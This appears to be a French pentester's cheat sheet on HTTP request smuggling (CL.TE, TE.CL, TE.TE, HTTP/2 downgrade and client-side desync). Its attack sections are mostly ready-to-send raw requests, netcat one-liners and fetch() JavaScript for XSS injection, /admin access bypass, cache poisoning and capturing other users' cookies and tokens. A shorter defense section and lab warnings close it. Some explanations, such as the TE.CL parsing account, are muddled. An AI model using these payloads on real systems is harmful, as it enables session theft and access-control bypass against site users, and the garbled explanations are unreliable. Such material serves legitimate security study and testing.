

# 🚂 HTTP Request Smuggling

> [!info] **En 1 phrase**
> HTTP Request Smuggling (ou *HTTP desync*) = profiter du **désaccord entre le front-end et le back-end**
> sur la **limite de la requête** (`Content-Length` vs `Transfer-Encoding`) pour **injecter des requêtes cachées**
> que le serveur traitera comme si elles venaient d'**un autre utilisateur** → XSS, bypass de contrôles, cache poisoning, vol de requêtes.
>
> Source principale : **[Request Smuggling — PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Request%20Smuggling/README.md)**

---

## 🎯 Concept

> Le désaccord naît quand **plusieurs composants** (proxy → serveur) découpent la requête différemment
> et que l'un d'eux **n'envoie pas la réponse attendue** pour la requête que l'autre croit traiter.



### Pourquoi un proxy et un back-end ne sont pas d'accord

| Serveur | Lit | Découpe la requête selon |
|---|---|---|
| **Front-end** (reverse proxy, WAF, CDN, LB) | `Content-Length` | la **taille du corps** (en octets) |
| **Back-end** (serveur applicatif, framework) | `Transfer-Encoding: chunked` | les **chunks** (`<taille hex>\r\n<data>\r\n...0\r\n\r\n`) |

> [!info] 💡 **Pourquoi ça marche**
> On envoie une requête qui contient **les deux headers à la fois** (ce qui est toléré par la norme).
> Le front-end et le back-end s'arrêtent à **des endroits différents** : le back-end finit avant le front-end,
> et **tout ce qui reste** est lu par le back-end comme le **début de la requête suivante** (pipelining HTTP/1.1,
> en gardant la connexion ouverte). Le front-end, lui, n'a aucune idée de cette requête fantôme :
> il va donc répondre à la *vraie* requête suivante en lui servant la réponse de la requête smuggled.

### Les 3 configurations possibles

| Type | Front-end | Back-end | Mécanisme |
|---|---|---|---|
| **CL.TE** | `Content-Length` | `Transfer-Encoding` | le front lit un corps plus long que le back |
| **TE.CL** | `Transfer-Encoding` | `Content-Length` | le front lit des chunks que le back ne voit pas |
| **TE.TE** | `Transfer-Encoding` | `Transfer-Encoding` | les 2 lisent TE, mais on **obfusque** pour que l'un ne le voie pas |

---

## 🧮 Les 3 types en détail

### 1. CL.TE — le front lit `Content-Length`, le back lit `Transfer-Encoding`

Le front calcule le corps avec **CL** (= il transmet **tout**, y compris ce qui suit le `0\r\n\r\n`).
Le back, lui, s'arrête au chunk `0` → **le reste est traité comme une nouvelle requête**.

```http
POST / HTTP/1.1
Host: cible.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

- **CL = 13** → le front compte `0\r\n\r\nSMUGGLED` (13 octets) comme le corps → il transmet tout.
- **TE** → le back lit le chunk `0` → fin du corps → il reste `SMUGGLED` = début de la requête suivante.

Exemple complet (requête suivante transformée en `GPOST`, signature classique de desync) :

```http
POST / HTTP/1.1
Host: cible.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Envoi avec netcat (même connexion TCP, les 2 requêtes d'un coup) :

```bash
# req.txt = requête 1 (CL.TE ci-dessus) PUIS requête 2 normale sur la même connexion
nc cible.com 80 < req.txt
# Variante pipe : 
printf 'POST / HTTP/1.1\r\nHost: cible.com\r\nContent-Length: 6\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nGPOST / HTTP/1.1\r\nHost: cible.com\r\n\r\n' | nc cible.com 80
# Réponse 1 = 200 OK → réponse 2 = "400 Unrecognized method G"  → CL.TE CONFIRMÉ
```

### 2. TE.CL — le front lit `Transfer-Encoding`, le back lit `Content-Length`

Le front suit les **chunks** et transmet tout le corps. Le back s'arrête à **CL** (la taille du chunk en hex,
ici `5c`) → tout ce qui suit (`GPOST / HTTP/1.1...`) devient la requête suivante côté back.

```http
POST / HTTP/1.1
Host: cible.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Exemple complet — le `G` de `GPOST` casse la requête suivante, puis la requête `GPOST` est un **POST
complète contrôlée** qui sera traitée à la place de celle de la victime :

```http
POST / HTTP/1.1
Host: cible.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

> [!warning] ⚠️ **Envoi via Burp Repeater**
> - Décocher **"Update Content-Length"** dans le menu Repeater (sinon Burp recalcule CL et casse le payload).
> - Terminer par la séquence `\r\n\r\n` après le `0` final (Burp enlève parfois le double CRLF).
> - Envoyé via la requête *suivante* sur la même connexion : la réponse de `GPOST` est servie comme réponse
>   de la requête 2 → on voit une réponse en double / inattendue.

### 3. TE.TE — les deux servent TE, mais on obfusque le header

Le front et le back lisent tous les deux `Transfer-Encoding`, mais **l'un d'eux peut être trompé**
par une variante malformée qu'il ignore (et donc retombe sur `Content-Length`) :

```http
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[espace]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

```txt
# Obfuscations utiles :
# - header "vide" :  Transfer-Encoding:\x0bchunked     (VT)
# - header avec espace :  Transfer-Encoding : chunked  (esp. avant les deux-points)
# - header sans valeur :  Transfer-Encoding:\x20chunked
# - injection \r\n ou \n dans la valeur (header "X: X\nTransfer-Encoding: chunked")
```

> [!tip] 💡 **Procédure TE.TE** : pour chaque obfuscation, relancer le **test de détection CL.TE** ci-dessous.
> Si l'une d'elles est ignorée par le back → ce back retombe sur `Content-Length` → on rejoue un CL.TE classique.

---

## 🧪 Tester — détecter le désaccord

### Principe 1 : le timing (requête "pendante")

On exploite le fait qu'un des deux serveurs **attend une fin de corps que l'autre a déjà vue**.

```http
# Détection CL.TE (le back attend des données que le front a déjà envoyées → timeout)
POST / HTTP/1.1
Host: cible.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

> [!info] 📖 **Lecture du résultat**
> - **CL.TE** : le back (TE) s'arrête à `0\r\n\r\n`, il reste `G` → la 2e requête sur la même connexion
>   devient `GPOST / HTTP/1.1...` → **erreur** `400 Unrecognized method` (ou réponse décalée).
> - **Pas vulnérable** : 2× `200 OK` propres.

```http
# Détection TE.CL (le front (TE) attend la fin du chunk 0x5c → la requête reste PENDANTE)
POST / HTTP/1.1
Host: cible.com
Content-Length: 4
Transfer-Encoding: chunked

5c
X
```

> [!info] 📖 **Lecture du résultat**
> - **TE.CL** : le front attend la fin du chunk `5c` (92 octets) qu'on ne lui donne jamais → **timeout / connexion qui reste ouverte**.
> - **Pas vulnérable** : réponse immédiate.

### Principe 2 : le différentiel entre deux requêtes

On envoie **2 requêtes sur la MÊME connexion TCP** (pipelining). Si le back décale, la 2e requête
échoue (`400`/`405`, réponse inattendue, double réponse) alors qu'elle est parfaitement valide :
c'est la **signature du desync**.

```http
# Requête 1 (le piège CL.TE)
POST / HTTP/1.1
Host: cible.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

```http
# Requête 2 (valide, envoyée immédiatement après sur la même connexion)
POST / HTTP/1.1
Host: cible.com
Content-Length: 5

x=1
```

Résultat attendu si **CL.TE** : réponse 2 = `400` (la méthode `GPOST` n'existe pas).

### Principe 3 : payloads de détection prêts à l'emploi

```bash
# --- CL.TE : signature "G" (erreur sur la 2e requête) ---
printf 'POST / HTTP/1.1\r\nHost: cible.com\r\nContent-Length: 6\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nG' > req1.txt
printf 'POST / HTTP/1.1\r\nHost: cible.com\r\nContent-Length: 5\r\n\r\nx=1' >> req1.txt
nc cible.com 80 < req1.txt

# --- TE.CL : requête pendante (timeout) ---
printf 'POST / HTTP/1.1\r\nHost: cible.com\r\nContent-Length: 4\r\nTransfer-Encoding: chunked\r\n\r\n5c\r\nX' | nc cible.com 80

# --- TE.TE : rejouer le test CL.TE en remplaçant "Transfer-Encoding: chunked" par une obfuscation ---
printf 'POST / HTTP/1.1\r\nHost: cible.com\r\nContent-Length: 6\r\nTransfer-Encoding: xchunked\r\n\r\n0\r\n\r\nG' | nc cible.com 80
```

> [!warning] ⚠️ **Impossible en une seule connexion par requête séparée**
> Il faut **deux requêtes sur la même connexion TCP** (ou 1 seule requête avec la requête 2 déjà concaténée
> dans le même envoi). Un scan normal (1 requête / 1 connexion) ne détectera jamais un smuggling.

---

## 💥 Attaques

### 🖼️ Request Smuggling → XSS (contaminer la requête d'une autre victime)

On injecte une requête qui **préfixe** la requête de la prochaine victime sur la connexion, pour
**refléter son contenu dans la page** ou la rediriger vers une charge XSS stockée.

```http
# Le corps du POST est lu par le back comme une requête complète (CL.TE)
POST / HTTP/1.1
Host: cible.com
Content-Length: 116
Transfer-Encoding: chunked

0

GET /blog?title=<script>alert(document.domain)</script> HTTP/1.1
X-Ignore: X
```

> [!tip] 💡 **Calculer le `Content-Length` exact** (il compte **tout** : CRLF inclus) :
> ```bash
> printf '0\r\n\r\nGET /blog?title=PAYLOAD HTTP/1.1\r\nX-Ignore: X' | wc -c
> ```

### 🔐 Bypass de contrôles d'accès / sécurité

Le front-end applique l'ACL/WAF sur la **première requête** (ex: `GET /` autorisé), mais le back-end
traite la requête **smuggled** vers une ressource protégée (`/admin`, `/internal`).

```http
# Le front (WAF) voit GET /  → autorisé. Le back traite "GET /admin" (requête smuggled).
POST / HTTP/1.1
Host: cible.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

### 🗑️ Web Cache Poisoning / Content Poisoning (CP)

On empoisonne le cache en faisant associer une **URL publique** à la **réponse d'une requête contrôlée** :
la victime qui demande la même URL reçoit notre contenu (XSS, exfil).

```http
# 1. Requête "déclencheuse" : la réponse (ex: GET /admin ou /404) est stockée par le cache
POST / HTTP/1.1
Host: cible.com
Content-Length: 53
Transfer-Encoding: chunked

0

GET /images/logo.png HTTP/1.1
X-Ignore: X
```

```bash
# 2. La victime demande /images/logo.png → elle reçoit notre réponse empoisonnée (capturée + re-servie)
# → injection dans la page + exécution de notre JS via un cache désynchronisé
```

### ↩️ RPO (Relative Path Overwrite)

La réponse d'une requête smuggled est **interprétée comme le corps d'une page**, mais les **chemins
relatifs** de cette page pointent vers nos ressources → on remplace un `<script src="/js/app.js">`
par notre propre fichier en contrôlant un préfixe de chemin.

```http
POST / HTTP/1.1
Host: cible.com
Content-Length: 62
Transfer-Encoding: chunked

0

GET /attacker/%2e%2e/... HTTP/1.1
X-Ignore: X
```

### 🌐 DNS Rebinding (pour atteindre un service local via la victime)

Quand le backend est sur `localhost`/réseau interne, on fait **rebinder un nom de domaine contrôlé**
sur `127.0.0.1` **après** le premier résolve (voir *Client-Side Desync* ci-dessous) : le navigateur de la
victime envoie notre requête smuggled au service interne.

---

## 🚀 Exploitation avancée

### 🙈 Capturer les requêtes des autres utilisateurs (blind)

On fait **préfixer** la requête de la victime par un **POST contrôlé** : la fin de sa requête (ex: sa session,
son cookie) est absorbée comme **valeur d'un paramètre**, qu'on lit ensuite dans la réponse/app.

```http
POST / HTTP/1.1
Host: cible.com
Content-Length: 134
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: cible.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

username=attacker&password=
```

> [!info] 📖 **Ce qui se passe**
> La victime envoie `POST /search?query=...` → côté back, sa requête est **concaténée après
> `password=`** (car notre `Content-Length: 200` "absorbe" ses données). On récupère sa requête
> complète (cookie, token) dans la valeur `password` → affichée/loggée/stockée → on la lit.

### 📥 Capturer les requêtes par la réponse (response queue poisoning)

On désynchronise la **file de réponses** pour que la réponse d'une requête contrôlée soit **servie à la
victime** → la victime reçoit notre réponse (page avec un `redirect` vers un domaine attaquant, XSS…).

```http
# H2.TE : le front downgrade HTTP/2 → HTTP/1.1, la requête smuggled empoisonne la file de réponses
POST / HTTP/1.1
Host: cible.com
Content-Length: 4
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

### 🔀 HTTP/2 downgrade (H2.CL / H2.TE)

Si le front-end convertit une requête **HTTP/2** vers **HTTP/1.1**, on peut y glisser un
`Content-Length` ou un `Transfer-Encoding` invalide, ou des **CRLF** : la version HTTP/1.1 du back
les interprète et un **GET** peut cacher une seconde requête HTTP/1.1.

```ps1
:method GET
:path /
:authority www.cible.com
header ignored\r\n\r\nGET / HTTP/1.1\r\nHost: www.cible.com
```

```http
# Variante : TE passé en HTTP/2 (normalement interdit sauf "trailers") puis traduit en HTTP/1.1
:method POST
:path /
:authority www.cible.com
transfer-encoding: chunked
```

> [!warning] ⚠️ HTTP/2 **natif** ne connaît ni `Content-Length` (explicite) ni `Transfer-Encoding` →
> le désaccord n'existe que si un composant **traduit** H2 → H1. Toujours tester les endpoints HTTP/2
> (h2c) en plus de HTTP/1.1.

### 🖥️ Client-Side Desync (attaque via le navigateur de la victime)

Certains serveurs **ignorent le corps des POST** et répondent comme à un GET → un corps contenant
`GET / HTTP/1.1\r\nHost: cible.com` est traité comme **deux requêtes** alors que le navigateur n'en a
envoyé qu'une. On déclenche ça **avec du JavaScript** chez la victime :

```javascript
// La victime envoie un POST dont le corps contient une vraie requête HTTP/1.1
fetch('https://www.cible.com/', {
    method: 'POST',
    body: "GET / HTTP/1.1\r\nHost: www.cible.com",
    mode: 'no-cors',
    credentials: 'include'
})
```

```javascript
// Exploitation : faire traiter une HEAD + une GET contrôlée par le back, puis forcer le navigateur
// à exécuter le contenu de la 2e réponse comme s'il venait de la cible (XSS)
fetch('https://www.cible.com/redirect', {
    method: 'POST',
    body: `HEAD /404/ HTTP/1.1\r\nHost: www.cible.com\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
    credentials: 'include',
    mode: 'cors' // erreur au lieu de suivre le redirect
}).catch(() => {
    location = 'https://www.cible.com/'
})
```

> [!info] 📖 **Ce que ça permet**
> - faire **stocker des identifiants de la victime** là où on peut les lire ;
> - utiliser le navigateur de la victime comme **proxy** pour attaquer des sites internes ;
> - exécuter du **JavaScript arbitraire** *au nom de la cible* (les réponses se mélangent).

---

## 🛠️ Outils

| Outil | Usage |
|---|---|
| **Burp Suite + HTTP Request Smuggler** ([bappstore](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)) | Extension dédiée : scan CL.TE/TE.CL/TE.TE, HTTP/2, client-side desync. Règles : **Update Content-Length décoché**, terminer par `\r\n\r\n`. |
| **defparam/Smuggler** ([GitHub](https://github.com/defparam/smuggler)) | Scanner Python 3 de désync / smuggling (CL.TE, TE.CL, TE.TE) avec payloads prêts. |
| **SmuggleDetect** ([GitHub](https://github.com/hackish/SmuggleDetect)) | Script Python qui **détecte CL.TE et TE.CL** par tests de timing/différentiel. |
| **dhmosfunk/simple-http-smuggler-generator** ([GitHub](https://github.com/dhmosfunk/simple-http-smuggler-generator)) | Génère les requêtes d'attaque (préparé pour les labs de l'examen Burp). |
| **netcat / ncat** | Envoi manuel de requêtes brutes sur une **même connexion** (pipelining) : `printf '...' | nc cible 80`. |
| **curl (prudence)** | Réécrit/normalise les headers → inutilisable pour le smuggling pur ; utile en HTTP/2 (`--http2-prior-knowledge`). |

```bash
# Exemple d'usage du scanner defparam/Smuggler
python3 smuggler.py -u https://cible.com
python3 smuggler.py -u https://cible.com -x https://collaborator.cible.com   # exfil via un second hôte
```

```bash
# SmuggleDetect : détection rapide
python2 smuggle.py -u http://cible.com/ --exploit --upstream-proxy=http://127.0.0.1:8080
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Normalisation (HTTP/2 bout en bout)** | H2 n'autorise pas `Content-Length` + `Transfer-Encoding` → les deux côtés utilisent le même framing → désambiguïsation impossible. |
| **Un seul parseur** | Ne pas avoir proxy + serveur avec des implémentations/tolérances différentes. Le front doit **normaliser** avant de transmettre. |
| **Rejeter les requêtes ambiguës** | Refuser (ex: `432`) toute requête contenant **à la fois** CL et TE, plusieurs `Content-Length`, ou des headers malformés. |
| **Front-end robuste** | Valider `Transfer-Encoding` (whitelist stricte), ne pas tolérer les espaces/CRLF anormaux, fixer `Content-Length` calculé. |
| **Ne jamais transmettre TE au back** | Si le front déchunkifie lui-même → le back ne voit que CL → plus de désaccord possible. |
| **Désactiver/limiter le pipelining & keep-alive** | Réduire la surface : chaque requête = une connexion. |
| **Timeouts stricts** | Couper les connexions "pendantes" (requêtes qui n'aboutissent pas) → empêche les tests timing/queue poisoning. |
| **Surveillance** | Logs de méthodes inconnues (`GPOST`, `G`), 400 récurrents sur la même connexion, double réponses, réponse à une requête jamais envoyée. |
| **Tests réguliers** | Passer Burp HTTP Request Smuggler / Smuggler en CI ou avant release des endpoints (dont HTTP/2 et h2c). |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Procédure de test rapide**
> 1. Tester **CL.TE** (2 requêtes pipelinées, préfixe `G` → erreur sur la 2e).
> 2. Tester **TE.CL** (chunk `5c` jamais terminé → timeout).
> 3. Tester **TE.TE** (chaque obfuscation du header, rejouer le test CL.TE).
> 4. Rejouer sur les endpoints **HTTP/2** (h2c) et sur toutes les routes (`/`, `/api/*`, POST).
> 5. Exploiter : XSS → bypass → cache poisoning → capture de requêtes.

> [!warning] ⚠️ **Les pièges du test**
> - **Ordre des headers** : certains frameworks exigent TE **avant** CL, ou inversement — tester les deux ordres.
> - **"Update Content-Length"** dans Burp Repeater recalcule CL et **détruit** le payload → toujours le décocher.
> - Terminer par le **`\r\n\r\n` final** après le `0` (le 0 des chunks) — sinon le corps est incomplet.
> - **Compter les octets exactement** (`wc -c`) pour CL : un seul CRLF de trop/d'en moins casse la détection.
> - Une requête "smuggled" qui commence par `G`/`X` + la requête suivante → la méthode devient `GPOST`/`XPOST` = signature.
> - Le **désaccord** ne se voit que via **2 requêtes sur la même connexion** : 1 requête / 1 connexion = jamais de détection.
> - Certains fronts (nginx, HAProxy, certains WAF) **normalisent** tout → aucune vulnérabilité malgré un back permissif.

> [!tip] 💡 **Différences entre protocoles**
> - **HTTP/1.0** : pas de `Transfer-Encoding` → pas de TE.CL/TE.TE (mais possible via un back qui lit quand même TE).
> - **HTTP/1.1** : champ d'action principal (pipelining + keep-alive).
> - **HTTP/2** : pas de TE natif → vulnérabilité uniquement lors du **downgrade** H2→H1 (headers `transfer-encoding` ou CRLF cachés dans les pseudo-headers/valeurs).
> - **TLS + HTTP/1.1** : le desync marche pareil, mais il faut **tester les deux** (un proxy TLS peut normaliser différemment).

> [!warning] ⚠️ **Attention aux Labs / cibles**
> - Toujours utiliser une **instance de test dédiée** : une mauvaise manip de *cache poisoning* peut **empoisonner le cache de prod**.
> - La capture de requêtes (blind) **vole des sessions réelles** → en environnement autorisé uniquement, et sans rejouer les sessions.
> - Les réponses de *response queue poisoning* peuvent **brouiller des utilisateurs réels** : préférer un domaine de test isolé.

---

## 🧪 Labs

- PortSwigger — HTTP request smuggling, basic CL.TE : https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te
- PortSwigger — HTTP request smuggling, basic TE.CL : https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl
- PortSwigger — HTTP request smuggling, obfuscating the TE header : https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header
- PortSwigger — Response queue poisoning via H2.TE : https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling
- PortSwigger — Client-side desync : https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[CRLF Injection|↩️ CRLF]]
- [[Web Cache Deception|🗑️ Cache Deception]]
- [[Open Redirect|↩️ Open Redirect]]
- [[SSRF|🌐 SSRF]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Request Smuggling](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Request%20Smuggling/README.md)
- 📖 Références : [HTTP Desync Attacks: Request Smuggling Reborn — James Kettle (albinowax)](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) · [Advanced Request Smuggling — PortSwigger](https://portswigger.net/web-security/request-smuggling/advanced) · [Browser-Powered Desync Attacks — James Kettle](https://portswigger.net/research/browser-powered-desync-attacks)
